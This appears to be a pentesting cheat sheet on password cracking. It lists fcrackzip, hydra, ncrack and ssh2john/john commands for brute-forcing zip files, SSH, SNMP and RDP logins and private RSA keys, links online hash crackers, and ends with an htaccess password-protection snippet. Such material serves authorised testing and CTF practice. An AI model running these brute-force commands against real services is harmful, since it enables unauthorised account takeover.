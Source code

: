 #### Cracking Unzip file password

```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt data.zip
```

#### Convert Hex to Binary

```
cat hex.txt | xxd -r -p
```

### Online Tools

{% embed url="https://crackstation.net/" %}

{% embed url="https://hashkiller.co.uk/" %}

### Cracking password for Services

#### Port 22- SSH

```
hydra -l root -P wordlist.txt $targetip ssh
hydra -L userlist.txt -P pass.txt ssh://$targetip
```

#### Cracking Priave RSA Key

```
python ssh2john.py user_rsa > crackable.txt
john --wordlist=/usr/share/wordlists/rockyou.txt crackable.txt
```

#### Port 161 - SNMP&#x20;

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

#### Port 3389 - RDP&#x20;

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

#### Port 80/443 htaccess

#### Password protect directory with htaccess <a href="#password-protect-directory-with-htaccess" id="password-protect-directory-with-htaccess"></a>

**Step 1**

Create a directory that you want to password-protect. Create .htaccess tile inside that directory. Content of .htaccess:

```
AuthType Basic
AuthName "Password Protected Area"
AuthUserFile /var/www/html/test/.htpasswd
Require valid-user
```
